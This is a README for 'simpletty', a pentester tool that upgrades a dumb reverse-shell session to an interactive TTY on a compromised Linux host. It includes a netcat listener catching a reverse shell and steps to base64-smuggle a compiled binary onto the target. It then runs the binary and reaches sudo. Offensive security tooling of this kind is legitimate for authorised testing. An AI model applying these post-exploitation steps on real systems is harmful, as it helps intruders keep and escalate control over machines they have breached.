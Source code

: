 # simpletty
Just another way to upgrade your dumb tty to fully interactive tty when you compromise a Linux machine

## Explanation

When a pentester compromise the system through a reverse shell they will find that some of the functianilities are not available because they do not have a fully interactive terminal:

```bash
$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.68] 59976
$ tty
not a tty
$ sudo su   #Not working...
ls
```

Many solutions exists in order to get a tty but normally, you will need python, perl or similar...

If none of these tools are installed on the target, this can be quite annoying.

To solve that I just coded a simple C program that upgrades your dumb tty to a fully interactive tty.

The steps to do so are the following:

- On attacker machine (x64):

```bash
gcc -Os simpletty.c -o simpletty -Wl,--hash-style=both #Compile the source code. When transfering payloads to the target machine, it is always better to optimize size. Size about 17000 bytes.
strip simpletty #Strip binary in order to reduce even more space. Size about 14000 bytes.
gzip simpletty #Compress it to even reduce more space. Size about 2000 bytes :)
base64 simpletty.gz > base64ttygz.txt #If we want to paste something into the non interactive shell, it is better to paste printable ascii text. Size about 4000 bytes :(.
```

Copy to the clipboard the content of the file base64ttygz.txt.

- On the reverse shell of the target machine:

```bash
echo "HERE GOES THE PASTED CONTENT OF base64ttygz.txt(don't forget the double quotes)" > base64ttygz.txt
base64 -d base64ttygz.txt > simpletty.gz
gunzip simpletty.gz
chmod +x simpletty
./simpletty /bin/bash #Or /bin/sh if there is no bash
user@user:~/simpletty$ tty      #We have an interactive tty                                                                                                                                                                                                     
tty                                                                                                                                                                                                                                        
/dev/pts/3                                                                                                                                                                                                                           
#From now on, we can upgrade to a fully interactive shell

Ctrl+Z
[1]+  Stopped                 nc -lnvp 8080                                                                                                                                                                                                
kali@kali:~ $stty -echo raw
fg
Enter
Enter
user@user:~/simpletty$ tty
/dev/pts/3
user@user:~/simpletty$ sudo su                                                                                                                                                                                                       
[sudo] password for user:                                                                                                                                                                                                               
```

The base64 output of base64ttygz.txt is already uploaded so that you will not be annoyed with the previous steps done on the attacker machine. The corresponding compiled binary code is x64 code.

In order to compile 32 bits code (x86), you will need to:
- Either compile in a x86 machine
- Use cross compiling: i686-linux-gnu-gcc -Os simpletty.c -o simpletty -Wl,--hash-style=both


